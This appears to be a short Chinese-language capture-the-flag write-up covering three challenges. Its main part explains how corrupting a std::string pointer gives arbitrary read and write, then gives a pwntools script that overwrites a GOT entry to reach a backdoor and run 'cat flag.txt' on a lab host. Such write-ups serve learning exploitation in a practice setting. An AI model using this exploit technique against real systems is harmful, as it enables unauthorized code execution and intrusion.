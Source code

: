 # KFC crazy Thursday

整形溢出，算一下pow(2,31)//99999=21，随手填个22就过了。

# Buffer overflow in heap

这道题要了解string的结构，如下：
```cpp
struct str{
    union _Bxty { // std::string同一时间只可能是短字符串或长字符串
        char _Buf[16]; // 长度小于16时候用这个
        char* _Ptr; // 长度大于16时候就是指针
        char _Alias[16]; // TRANSITION, ABI: _Alias is preserved for binary compatibility (especially /clr)
    } _Bx;

    std::size_t _Mysize = 0; // 字符串当前长度
    std::size_t _Myres = 0; // 当前字符串最大长度
}
```
所以我们只需要初始化一个长度大于16的字符串，覆盖最靠前的_Ptr即可达到任意地址读/写

因为程序没开随机化和FULL RELRO，可以改会碰到的函数的got表为后门函数直接getshell。

注意几点就是：
- cin默认的分隔符是空格和换行，要保证payload里没这两个字符
- cin>>和gets一样，会把末尾的分隔符替换为\x00，所以请预留好空间，不要让cin的截断覆盖了后边结构体的关键信息。
- 如果不初始化str也是可以的，这样就不需要考虑被覆盖的_Mysize位了


```python
from pwn import *

p = remote("10.20.55.12", 28024)

p.sendlineafter(b":", b"3")
p.sendlineafter(b":", b"b" * 17)  # 先搞个正常的就不用手动伪造了
p.sendlineafter(b":", b"1")
# 这里0x404048 0x404050 和 0x404080 都可以，延迟绑定只要碰到的就能打(?)
p.sendlineafter(b":", b'\x00' * 32 + p64(0x404050)[:-1])  # cin补0，我们不需要
p.sendlineafter(b":", b"3")
p.sendlineafter(b":", p64(0x4016e2))  # 0x4016de 也行，但e2就够og了
p.sendlineafter(b":", b"4")
p.sendlineafter(b"/", b"cat flag.txt")
p.interactive()

```

# Love Kernel

48h国际赛1解内核题，不会kernel，爬走
